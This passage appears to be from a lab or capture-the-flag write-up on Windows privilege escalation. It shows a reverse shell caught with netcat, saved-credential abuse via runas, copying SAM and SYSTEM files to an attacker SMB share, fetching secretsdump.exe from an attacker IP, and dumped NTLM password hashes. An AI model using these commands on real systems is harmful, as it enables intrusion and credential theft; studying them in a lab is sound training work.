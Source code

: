 

- Start a listener and run the reverse shell binary using `runas` with the user's saved credentials:


```powershell
❯ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.162.79 49825
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
win-qba94kb3iof\admin


#######################################################

C:\PrivEsc>runas /savecred /user:admin C:\PrivEsc\reverse.exe
```



### **Security Account Manager (SAM)**



- SAM and SYSTEM files can be used to extract user password hashes

- Transfer the SAM and SYSTEM files (make sure to start up smbserver)

```bash
# Run this on kali
smbserver.py share -smb2support ./

# Run this on the windows server
copy C:\Windows\Repair\SAM \\ATTACKER-IP\share\  
copy C:\Windows\Repair\SYSTEM \\ATTACKER-IP\share\
```


> Was having problem transferring the `SYSTEM` file so i decided to transfer `secretsdump.exe` to the windows server, If it was possible to transfer the `SYSTEM` file, could have dumped it with `secretsdump.py`.


```powershell
PS C:\PrivEsc> wget 10.8.23.29/secretsdump.exe -O secretsdump.exe

PS C:\PrivEsc> .\secretsdump.exe -sam C:\Windows\Repair\SAM -system C:\Windows\Repair\SYSTEM LOCAL

Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

[*] Target system bootKey: 0xf4fb8f729017b7d8a540e99f6dabea79
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6ebaa6d5e6e601996eefe4b6048834c2:::
user:1000:aad3b435b51404eeaad3b435b51404ee:91ef1073f6ae95f5ea6ace91c09a963a:::
admin:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::
[*] Cleaning up...
```
